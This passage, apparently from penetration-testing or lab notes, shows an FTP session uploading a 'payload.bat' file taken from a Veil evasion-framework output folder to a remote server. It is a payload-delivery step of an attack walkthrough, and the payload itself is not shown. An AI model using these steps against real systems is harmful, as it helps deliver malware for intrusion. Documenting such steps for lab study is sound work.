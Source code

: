     Passive mode: off; fallback to active mode: off.
    ```
- Uploading a binary file:
    ```sh
    ftp> put                                                       
    (local-file) /var/lib/veil/output/source/payload.bat
    (remote-file) payload.bat
    local: /var/lib/veil/output/source/payload.bat remote: payload.bat
    200 EPRT command successful.
    125 Data connection already open; Transfer starting.
    100% |*********************************************************************************|  2303       16.76 MiB/s    00:00 ETA
    226 Transfer complete.                                         
    2303 bytes sent in 00:00 (127.63 KiB/s)
    ```
- Exit ftp:
    ```sh
    ftp> exit
    bye
    ```
